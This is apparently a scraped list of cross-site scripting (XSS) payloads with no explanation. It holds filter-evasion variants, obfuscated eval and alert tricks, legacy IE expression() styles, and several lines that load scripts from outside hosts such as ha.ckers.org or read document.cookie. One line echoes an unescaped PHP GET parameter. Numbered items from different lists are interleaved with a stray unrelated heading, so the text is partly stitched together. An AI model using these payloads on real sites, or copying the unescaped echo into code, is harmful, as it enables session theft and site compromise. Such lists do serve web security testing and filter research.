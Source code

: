 Here's how to create a string from any function name:-
javascript: x = window;y=document; x.alert(y.cookie); 
perl -e 'print "<SCRIPT>alert("XSS")</SCRIPT>";' > out
<iframe src="vbscript:document.write("XSS-XSS-XSS");">
['ale'+'rt'].map(top['ev'+'al'])[0]['valu'+'eOf']()(1)
<XML SRC="http://ha.ckers.org/xsstest.xml" ID=I></XML>
<XSS STYLE="xss:expression(document.vulnerable=true)">
<![CDATA[<script>var n=0;while(true){n++;}</script>]]>
<SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
49) </plaintext\></|\><plaintext/onmouseover=prompt(1)
37) <svg><script>//&NewLine;confirm(1);</script </svg>
4) <a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;">X</a>
<table background="javascript:alert(([code])"></table>
<font style='color:expression(alert(document.cookie))'>
"><script alert(String.fromCharCode(88,83,83))</script>
<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<?import namespace="t" implementation="#default#time2">
<script src=http://yoursite.com/your_files.js></script>
1) <iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>
<;A HREF=";http://0102.0146.0007.00000223/";>;XSS<;/A>;
<;A HREF=";http://0x42.0x0000066.0x7.0x93/";>;XSS<;/A>;
<;IMG STYLE=";xss:expr/*XSS*/ession(alert(';XSS';))";>;
<img src="blah"onmouseover="document.vulnerable=true;">
<img SRC=" &#14; javascript:document.vulnerable=true;">
>%22%27><img%20src%3d%22javascript:alert(%27XSS%27)%22>
blur['con'+'structor']('_','eva'+'l(_)')('a'+'lert(1)')
top[(Number.MAX_VALUE/45268).toString(36).slice(15,19)]
\u0030\u005b'\145\166\x61\x6C'\u005d\u0028\u0065\u0029 
typeof setTimeout('\x61\x6c\x65\x72\x74\x28\x31\x29',0)
//<style>*{color:red}</style><script> {eval(name)}body 
<x style="background:url('x&#1;;color:red;/*')">XXX</x>
<title onpropertychange=alert(1)></title><title title=>
%253cscript%253ealert(document.cookie)%253c/script%253e
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<input name="test" value="<?php echo $_GET['test']?>" />
eval(['alee','(rt(1(,))'].toString().replace(/.,./g,''))
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<LAYER SRC="http://ha.ckers.org/scriptlet.html"></LAYER>
<? echo('<scr)'; echo('ipt>alert(\"XSS\")</script>'); ?>
<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>
9) <ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
19) <form><a href="javascript:\u0061lert&#x28;1&#x29;">X
'>"><script src = 'http://www.site.com/XSS.js'></script>
<;BODY onload!#$%&;()*~+-_.,:;?@[/|\]^`=alert(";XSS";)>;
<;IMG SRC=`javascript:alert(";RSnake says, ';XSS';";)`>;
<;IFRAME SRC=";javascript:alert(';XSS';);";>;<;/IFRAME>;
<div datafld="b" dataformatas="html" datasrc="#X"></div>
<![</script>
<body BACKGROUND="javascript:document.vulnerable=true;">
<img dynsrc="javascript:document.write("XSS-XSS-XSS");">
<style><img src="</style><img src=x onerror=alert(1)//">
{color:red;xss:expression(window.x?0:(eval(name),x=1))} 
<scr<script>ipt>alert(document.cookie)</scr</script>ipt>
<img src="blah>" onmouseover="document.vulnerable=true;">
<;SCRIPT SRC=";http://ha.ckers.org/xss.jpg";>;<;/SCRIPT>;
<iframe<?php echo chr(12)?> onload=alert(/XSS/)></iframe>
<bgsound src="javascript:document.write("XSS-XSS-XSS");">
<XSS STYLE="behavior: url(http://ha.ckers.org/xss.htc);">
<table BACKGROUND="javascript:document.vulnerable=true;">
+ADw-script+AD4-alert(document.location)+ADw-/script+AD4-